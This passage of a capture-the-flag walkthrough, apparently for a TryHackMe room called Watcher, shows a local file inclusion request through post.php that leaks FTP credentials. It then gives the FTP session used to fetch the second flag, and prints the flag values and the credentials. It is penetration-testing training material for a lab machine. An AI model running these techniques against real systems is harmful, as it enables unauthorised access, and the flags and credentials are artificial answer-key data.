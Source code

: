 Flag 1: `FLAG{robots_dot_text_what_is_next}`

### Flag 2

Hint: https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/

The hint is refering to LFI (Local File Inclusion). I discovered a file named `secret_file_do_not_read.txt`  that we don't have permission to read. Let's see if we can read it using LFI. If you click on the posts, on the webpage, you'll see that a php script named "post.php" is called. Let's use it:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Watcher]
└─$ curl -s "http://$IP/post.php?post=secret_file_do_not_read.txt" | html2text 

[REDACTED]

Hi Mat, The credentials for the FTP server are below. I've set the files to be
saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:givemefiles777

~~~

We have creds for the ftp service: `ftpuser:givemefiles777`. And we also know were the uploaded files are saved, so we might be able to use it later for calling a reverse shell. Let's see what we can find:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Watcher/files]
└─$ ftp $IP 
Connected to 10.10.36.78.
220 (vsFTPd 3.0.3)
Name (10.10.36.78:user): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 .
dr-xr-xr-x    3 65534    65534        4096 Dec 03  2020 ..
drwxr-xr-x    2 1001     1001         4096 Dec 03  2020 files
-rw-r--r--    1 0        0              21 Dec 03  2020 flag_2.txt
226 Directory send OK.
ftp> get flag_2.txt
local: flag_2.txt remote: flag_2.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag_2.txt (21 bytes).
226 Transfer complete.
21 bytes received in 0.50 secs (0.0408 kB/s)
ftp> exit
221 Goodbye.
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Watcher/files]
└─$ cat flag_2.txt 
FLAG{ftp_you_and_me}
~~~
